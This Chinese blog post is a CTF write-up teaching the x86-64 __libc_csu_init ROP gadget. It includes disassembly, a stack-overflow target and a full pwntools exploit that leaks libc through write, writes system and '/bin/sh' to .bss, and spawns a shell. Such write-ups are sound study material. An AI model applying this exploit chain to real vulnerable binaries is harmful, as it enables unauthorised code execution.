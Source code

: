 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      pwn__libc_csu_init通用gadget学习 		 # 标题 
subtitle:   pwn_libc_csu_init               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - PWN
---
```


# PWN,__libc_csu_init通用gadget学习
>例题下载:[蒸米level5](../files/pwn/level5)

__libc_csu_init函数是在libc初始化的时候用到的函数,所以在使用libc的文件中都会出现他  
  
在做64位的pwn题目的时候,函数的传参都是需要用到寄存器的  
>从第⼀一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

但是我们在rop的时候不一定可以控制全部的寄存器,可能会导致参数无法完全传递,这时候就可以利用__libc_csu_init来进行调用函数

首先来看函数的汇编  
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
需要注意的是 每个不同版本的 汇编可能都不同

下面来看分析  
显然在0x0400606之后我们可以控制rbx,rbp,r12,r13,r14,r15  
在0x04005F0中
```
r15 --> rdi  
r14 --> rsi
r13 --> edi
```
这里要注意的是 虽然只能够控制rdi的低32位,但实际上rdi的高32位也是0(可以自行调试)
在这里我们就可以控制rdi,rsi,rdi。并且可以调用r12所指的函数(要注意调用时要使用got地址)  

```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
这一处我们只需要使rbx + 1 = rbp就可以了  
我们就使用最简单的rbx = 0,rbp = 1  
  
溢出函数:
```c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

payload编写:  
1. 确定padding:0x88  
2. 编写csu利用函数


```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += 'A'*(7*8)
    payload += p64(main)
    s.sendline(payload)
```

这里需要注意 我们在覆盖完ret后,要先写入8字节将rsp覆盖到rsp+8。在控制完rbx,rbp等以后跳转到上方调用函数。在调用完之后,我们仍然需要覆盖ret,所以要往stack上继续覆盖8*8*7字节(6个寄存器+1个垃圾字节),因为要多次利用,所以要将ret覆盖为main

3. 利用write,leak出偏移地址
```python
write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")
```

4. 将system地址与/bin/sh写入bss  
   因为我们没有system_got的地址,所以我们需要首先把system_symbols写入bss,然后再通过csu调用bss来执行
```python
read_got = elf.got['read']
bss = 0x601038
csu(0,1,read_got,0,bss,16)
system = libc.dump("system") + offset
sleep(1)
s.send(p64(system))
s.send("/bin/sh\x00")
```
这里记得手动延时一下,不然可能会出现程序还没read,我们数据就已经发上去的情况

5. 调用system,GetShell
```python
csu(0,1,bss,bss+8,0,0)
s.interactive()
```

完整code:
```python
#-*-coding=utf-8-*-

from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep

s = process("./level5")
elf = ELF("./level5")
padding = 'A'*0x88
csu_end = 0x0400606
csu_start = 0x04005F0
main = 0x0400564

def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += '\x00'*(7*8)
    payload += p64(main)
    s.sendline(payload)

write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")

read_got = elf.got['read']
bss = 0x601038
system_addr = libc.dump("system") + offset
csu(0,1,read_got,0,bss,16)
sleep(1)
s.send(p64(system_addr))
s.send("/bin/sh\0")
print "send success"
csu(0,1,bss,bss+8,0,0)
s.interactive()
```


